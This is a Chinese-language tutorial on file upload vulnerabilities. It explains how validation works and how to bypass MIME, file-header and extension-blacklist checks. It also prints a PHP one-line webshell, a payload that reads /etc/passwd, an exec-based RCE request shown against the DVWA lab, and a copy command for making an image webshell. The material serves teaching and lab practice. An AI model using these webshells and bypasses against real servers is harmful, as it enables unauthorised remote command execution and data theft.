


## File Upload 文件上传

文件上传漏洞是指由于程序员对用户上传到服务器的文件没有进行严格的验证过滤，导致黑客可以上传木马脚本攻击服务器、获取服务器权限。

文件上传漏洞危害极大，非法用户上传的恶意文件可以控制整个网站甚至服务器，这样的恶意脚本文件通常被称之为**WebShell**。Webshell的功能强大，可以方便查看服务器信息、目录，或是执行系统命令等

### 文件上传的过程

用户将文件上传到Web服务器并不是像FTP一样直接上传，Web服务器对上传的文件需要一定进行处理一些处理才会永久储存

- 客户端上传

  用户在前端或者客户端选择自己本地的文件，点击上传，此时客户端会提交**POST**请求

- 接收和验证

  服务器接收到客户端的POST请求后，先将文件保存到临时目录中等待验证，验证文件的安全性和合法性

- 储存并响应

  验证成功后，服务器将文件永久保存，然后向客户端发送响应报文，告知客户端上传是否成功

- 客户端响应

  客户端接收到服务器的响应报文，根据响应内容提示用户上传结果

### 漏洞利用

学会文件上传，其实是学会文件上传绕过。文件上传肯定会有过滤防护，所以我们要明白有哪些方式来防止恶意文件上传，从而有依据的绕过这些防守，从而实现漏洞利用

#### 文件格式验证

服务器仅通过一些文件表面特征来判断文件合法性，可以被轻易伪造

- 前端验证

  通过前端的JavaScript代码限制文件上传类型，但是攻击者可以修改或者禁止JavaScript就可以绕过

- 文件后缀名验证

  通过使用黑名单限制文件上传的类型，如禁止`php`、`asp`等后缀，但是黑名单并不完整或可以被混淆

- MIME 类型验证

  `MIME(Multipurpose Internet Mail ExtensionsMultipurpose Internet Mail Extensions)`是描述消息内容类型的标准，用来表示文档、文件或字节流的性质和格式

  MIME 消息能包含文本、图像、音频、视频以及其他应用程序专用的数据，MIME 类型表如下

  | 类型        | 描述                           | 示例                                                         |
  | ----------- | ------------------------------ | ------------------------------------------------------------ |
  | text        | 普通文本，可直接阅读           | text/plain<br />text/html<br />text/css<br />text/javascript<br />... |
  | image       | 图像文件，不包括视频           | image/png<br />image/jpeg<br />image/gif<br />...            |
  | audio       | 音频文件                       | audio/mpeg<br />audio/webm<br />audio/wav<br />...           |
  | video       | 视频文件                       | video/mp4<br />video/mpeg<br />...                           |
  | application | 二进制数据，一般是一些数据文件 | application/msword (.doc)<br />application/java-archive (.jar)<br />application/zip<br />... |

  文件上传时，`POST`请求中通常包含`Content-Type`字段来储存文件类型，只需要修改该字段值即可绕过MIME验证

- 文件头验证

  文件头验证通过检查该文件头部信息的前几个字节来判断该文件类型，例如一个`PNG`图片的文件头前4字节是`89 50 4E 47`，`JPG`图片的文件头前4字节是`FF D8 FF E0`

  文件头绕过其实也非常简单，只需要在上传的文件内容前加入一个允许的文件头即可

- 后缀黑名单

  黑名单是常见的过滤方式，但是黑名单总会有遗漏

  - 双写绕过，例如`php`过滤，双写`pphphp`即可绕过
  - 变异扩展名，例如`php`的扩展名有`php3`、`php4`、`php5`、`phtml`
  - 多后缀解析，Apache将最后一个扩展名作为解析依据，那么在文件中添加扩展名即可绕过，例如`.php.jpg`
  - 00截断，利用字符串终止符`\x00`绕过直接截断字符串读取，绕过后缀验证，例如`.php\x00.jpg`

#### 一句话木马

CTF中的文件上传一般会上传一句话木马获取flag，本文并非CTF攻略，只简单解释利用方式，不谈原理

有以下代码

```php
<?php @eval($_POST['cmd']);?>
```

利用文件上传漏洞，上传带有该代码的文件到Web服务器中，再使用菜刀工具连接文件路径，密码为`cmd`

一句话木马不止可以用来找flag，函数`eval()`会将参数视为系统命令执行，假设我们上传了上述的一句话木马，则使用`POST`传入参数`cmd`

```
?cmd=cat /etc/passwd
```

则会输出`passwd`文件内容，这里用`DVWA`作示例

上传一个`shell.php`，内容如下

```php
<?php @eval($_POST['shell']); ?>
```



向上传的文件路径`POST`一个请求，构造如下，就可以实现RCE了

```php
shell=header("Content-Type:text/html;charset=gbk");
exec("dir",$out);
echo '<pre>';
print_r($out);
echo '</pre>';
```



##### 图片马

藏在图片中的一句话木马被称为**图片马**，也是最常用的文件上传木马，

快速自制一个图片马，此图片马仅能绕过后缀和文件头，大概率不能过内容检查

先准备好一个图片`1.png`和一句话木马`shell.php`，并放在同一个目录里面

```php
<?php @eval($_POST['shell']); ?>
```

Windows cmd下使用命令

```cmd
copy 1.png/b + shell.php 2.png
```

输出的`2.png`就是图片马了，这里我直接提供一个图片马


~~*可可爱爱芬里丝*~~

保存下来应该能直接用吧......~~我没测试过不要怪我啊~~

